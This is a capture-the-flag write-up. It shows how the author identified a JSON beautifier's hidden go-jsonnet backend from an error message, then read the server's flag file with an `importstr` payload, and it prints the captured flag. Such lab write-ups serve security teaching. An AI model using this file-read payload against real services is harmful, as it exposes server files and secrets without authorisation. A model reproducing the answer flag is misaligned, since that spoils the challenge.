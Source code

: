 # Advanced Json Cutifier

## Challenge Description

My homework was to write a JSON beautifier. Just Indenting JSON files was too boring that's why I decided to add some features to my project using a popular (More than 1k stars on GitHub!! ) library to make my project more exciting.

## Identifying the Hidden Library

While experimenting with the website, I discovered that the following JSON payload:

```json
{
   Error: error {}
}
```

Resulted in this error message:

```log
RUNTIME ERROR: { }
    ctf:2:11-19 object <anonymous>
    Field "Error"
    During manifestation
```

A Google search for "during manifestation" golang json led me to the go-jsonnet library. Its parsing function signature closely resembled that of the website:

```go
// Redacted library in code
jsonStr, err := REDACTED.REDACTED().REDACTED("ctf", string(buf[:]))

// go-jsonnet library
jsonStr, err := jsonnet.MakeVM().EvaluateAnonymousSnippet("ctf", string(buf[:]))
```

To confirm my hypothesis, I used this payload:

```json
{
   person1: {
    name: "Alice",
    welcome: "Hello " + self.name + "!",
   },
   person2: self.person1 { name: "Bob" },
}
```

Which returned:

```json
{
   "person1": {
      "name": "Alice",
      "welcome": "Hello Alice!"
   },
   "person2": {
      "name": "Bob",
      "welcome": "Hello Bob!"
   }
}
```

This confirmed the website's use of the go-jsonnet library.

## Retrieving the Flag

With this knowledge, I obtained the flag by importing it as a string:

```json
{
    file: importstr "./flag.txt"
}
```

The output was:

```text
MAPNA{5uch-4-u53ful-f347ur3-a23f98d}
```
